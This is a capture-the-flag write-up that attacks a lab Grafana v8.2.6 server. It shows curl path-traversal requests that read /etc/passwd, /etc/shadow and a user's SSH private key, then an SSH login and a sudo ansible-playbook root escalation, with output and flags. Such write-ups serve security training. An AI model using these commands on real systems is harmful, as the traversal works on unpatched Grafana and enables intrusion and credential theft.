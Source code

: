 Ressources: https://exploit-notes.hdks.org/exploit/web/grafana-pentesting/
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/grafana
## Recon
```
└─# nmap -sS -vvv -A --min-rate 5000 $ip

PORT   STATE SERVICE
22/tcp open  ssh
3000/tcp open unknown

```
I found an open port : `http://10.0.160.148:3000/login` and it's a grafana instances.
**1st Methods**
i will look for default creds. and found `admin/admin`
**second method**
and in the footer i found:
```
 Documentation
Support
Community Enterprise (Free & unlicensed) v8.2.6 (c3cc4da7a)
```
I Can search exploit for this version.
On google i found a lot of CVEs. i will try them

So now i am connected on the admin panel, i will look for something like upload shell or a console to run command.
## Foothold.
I will try to find the LFI
```
└─# curl --path-as-is http://10.0.160.148:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
grafana:x:102:102::/usr/share/grafana:/bin/false
ETSCTF:x:1000:102:ETSCTF User:/home/ETSCTF:/bin/bash
```
Good, now i will try to read the  ETSCTF id_rsa
```
└─# curl --path-as-is http://10.0.160.148:3000/public/plugins/alertlist/../../../../../../../../etc/shadow 
root:*:19639:0:99999:7:::
daemon:*:19639:0:99999:7:::
bin:*:19639:0:99999:7:::
sys:*:19639:0:99999:7:::
sync:*:19639:0:99999:7:::
games:*:19639:0:99999:7:::
man:*:19639:0:99999:7:::
lp:*:19639:0:99999:7:::
mail:*:19639:0:99999:7:::
news:*:19639:0:99999:7:::
uucp:*:19639:0:99999:7:::
proxy:*:19639:0:99999:7:::
www-data:*:19639:0:99999:7:::
backup:*:19639:0:99999:7:::
list:*:19639:0:99999:7:::
irc:*:19639:0:99999:7:::
gnats:*:19639:0:99999:7:::
nobody:*:19639:0:99999:7:::
_apt:*:19639:0:99999:7:::
sshd:*:19659:0:99999:7:::
grafana:*:19659:0:99999:7:::
ETSCTF:*LK*:19659:0:99999:7:::
```
```
└─# curl --path-as-is http://10.0.160.148:3000/public/plugins/alertlist/../../../../../../../../home/ETSCTF/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAl0L5Ywi+spzRIUbUUbyPabiNLMZNbc2I4T7RiRkqr10jTexntWTo
```
```
└─# ssh ETSCTF@10.0.160.148 -i id_rsa
Linux grafana.bctf.africa 4.19.0-23-amd64 #1 SMP Debian 4.19.269-1 (2022-12-20) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ETSCTF@grafana:~$ 
ETSCTF_a742aa6df6fd9336b10f85de6eea7a9b
```

## Privilege Escalation
```
ETSCTF@grafana:~$ sudo -l
Matching Defaults entries for ETSCTF on grafana:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ETSCTF may run the following commands on grafana:
    (ALL : ALL) NOPASSWD: /usr/bin/ansible-playbook
ETSCTF@grafana:~$ 
```
https://gtfobins.github.io/gtfobins/ansible-playbook/
```
ETSCTF@grafana:~$ sudo /usr/bin/ansible-playbook $TF
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [localhost] ********************************************************************************************************************

TASK [Gathering Facts] **************************************************************************************************************
ok: [localhost]

TASK [shell] ************************************************************************************************************************
# id
uid=0(root) gid=0(root) groups=0(root)
```
Rooted
`ETSCTF_e35571c630ac64f1eb446ad9d2ac00f9`